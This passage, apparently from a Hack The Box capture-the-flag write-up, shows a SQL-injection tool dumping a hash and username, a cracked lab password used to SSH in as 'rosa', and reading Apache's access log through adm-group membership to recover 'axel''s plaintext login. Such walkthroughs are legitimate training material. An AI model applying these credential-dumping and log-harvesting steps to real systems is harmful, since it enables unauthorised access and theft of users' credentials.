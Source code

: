 ```terminal
[04:39:04] [INFO] retrieved: ac369922d560f17d6eeb8b2c7dec498c 
[04:39:04] [INFO] retrieving the length of query output                   
[04:39:04] [INFO] retrieved: 4                                                                 
[04:39:12] [INFO] retrieved: rosa 
```

We got usernames and password for multiple users.

The username `axel` came up a lot when I was viewing the source code so I'll try cracking their hash first.

That failed, I'll try `rosa`'s hash next next

![cracl](7.png)

We got the password `soyunaprincesarosa`, let's ssh to the box.

```terminal
┌──[10.10.16.4]-[sirius💀parrot]-[25-07-05 4:44]-[~/ctf/htb/cat/git]
└──╼[★]$ ssh rosa@cat.htb      
rosa@cat.htb's password:                                                                       
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-204-generic x86_64)

The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Sat Sep 28 15:44:52 2024 from 192.168.1.64
rosa@cat:~$ sudo -l
[sudo] password for rosa: 
Sorry, user rosa may not run sudo on cat.
rosa@cat:~$ id
uid=1001(rosa) gid=1001(rosa) groups=1001(rosa),4(adm)

```

## **Privilege Escalation**

### rosa -> axel

We see that user rosa is part of `adm` group. This group is known to have the ability to read logs.

Back to the website, I noticed that when registering a user and when logging in the request is sent through a get request.

![get](8.png)

All request made to the apache server are logged inside `/var/log/apache2/access.log` file.

If we we do a simple `head` to that file we get the following.

```terminal
osa@cat:/var/log/apache2$ head access.log
127.0.0.1 - - [03/Jul/2025:18:27:20 +0000] "GET /join.php HTTP/1.1" 200 1683 "-" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:134.0) Gecko/20100101 Firefox/134.0"
127.0.0.1 - - [03/Jul/2025:18:27:20 +0000] "GET /css/styles.css HTTP/1.1" 200 1155 "http://cat.htb/join.php" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:134.0) Gecko/20100101 Firefox/134.0"
127.0.0.1 - - [03/Jul/2025:18:27:20 +0000] "GET /favicon.ico HTTP/1.1" 404 485 "http://cat.htb/join.php" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:134.0) Gecko/20100101 Firefox/134.0"
127.0.0.1 - - [03/Jul/2025:18:27:21 +0000] "GET /join.php?loginUsername=axel&loginPassword=aNdZwgC4tI9gnVXv_e3Q&loginForm=Login HTTP/1.1" 302 329 "http://cat.htb/join.php" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:134.0) Gecko/20100101 Firefox/134.0"

```

